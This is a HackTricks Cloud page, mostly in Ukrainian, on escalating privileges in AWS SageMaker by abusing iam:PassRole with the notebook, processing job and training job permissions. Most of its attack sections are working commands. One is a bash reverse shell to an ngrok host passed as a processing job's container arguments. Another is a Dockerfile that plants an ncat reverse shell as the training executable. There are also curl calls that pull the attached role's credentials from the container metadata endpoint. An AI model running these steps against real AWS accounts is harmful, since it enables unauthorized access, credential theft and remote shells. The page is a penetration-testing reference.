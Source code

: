 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Почніть створювати нотатник з IAM роллю, щоб отримати доступ до нього:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Відповідь повинна містити поле `NotebookInstanceArn`, яке міститиме ARN новоствореного екземпляра блокнота. Потім ми можемо використовувати API `create-presigned-notebook-instance-url`, щоб згенерувати URL, який ми можемо використовувати для доступу до екземпляра блокнота, як тільки він буде готовий:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Перейдіть за URL-адресою в браузері та натисніть на \`Open JupyterLab\` у верхньому правому куті, потім прокрутіть вниз до вкладки “Launcher” і в розділі “Other” натисніть кнопку “Terminal”.

Тепер можливо отримати доступ до облікових даних метаданих IAM Role.

**Potential Impact:** Privesc до ролі служби sagemaker, що вказана.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Якщо на ньому вже **запущені Jupyter ноутбуки** і ви можете їх перерахувати за допомогою `sagemaker:ListNotebookInstances` (або виявити їх будь-яким іншим способом). Ви можете **згенерувати URL для них, отримати до них доступ і вкрасти облікові дані, як зазначено в попередній техніці**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Потенційний вплив:** Privesc до ролі служби sagemaker, що прикріплена.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Зловмисник з цими дозволами може змусити **sagemaker виконати обробку роботи** з прикріпленою роллю sagemaker. Зловмисник може вказати визначення контейнера, який буде запущено в **управляємому AWS ECS обліковому записі**, і **викрасти облікові дані прикріпленої IAM ролі**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Потенційний вплив:** Privesc до ролі служби sagemaker, що вказана.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Зловмисник з цими дозволами зможе створити навчальну задачу, **запускаючи довільний контейнер** на ній з **доданою роллю**. Отже, зловмисник зможе вкрасти облікові дані ролі.

{% hint style="warning" %}
Цей сценарій складніше експлуатувати, ніж попередній, оскільки вам потрібно створити образ Docker, який надішле rev shell або облікові дані безпосередньо зловмиснику (ви не можете вказати команду запуску в конфігурації навчальної задачі).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Потенційний вплив:** Privesc до ролі служби sagemaker, що вказана.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Зловмисник з цими дозволами зможе (потенційно) створити **роботу з навчання гіперпараметрів**, **запускаючи довільний контейнер** на ній з **доданою роллю**.\
&#xNAN;_&#x49; не експлуатував через брак часу, але виглядає подібно до попередніх експлойтів, не соромтеся надіслати PR з деталями експлуатації._

## Посилання

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
